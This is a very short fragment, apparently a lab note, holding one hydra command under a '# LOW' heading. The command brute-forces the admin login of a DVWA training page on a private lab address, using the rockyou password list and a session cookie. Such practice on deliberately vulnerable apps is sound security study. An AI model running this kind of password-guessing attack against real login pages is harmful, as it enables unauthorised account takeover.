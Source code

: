 # LOW
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 192.168.56.103 http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=low; PHPSESSID=h2dk437g0mu5nvf0l6bgtqvkk6:Username and/or password incorrect"
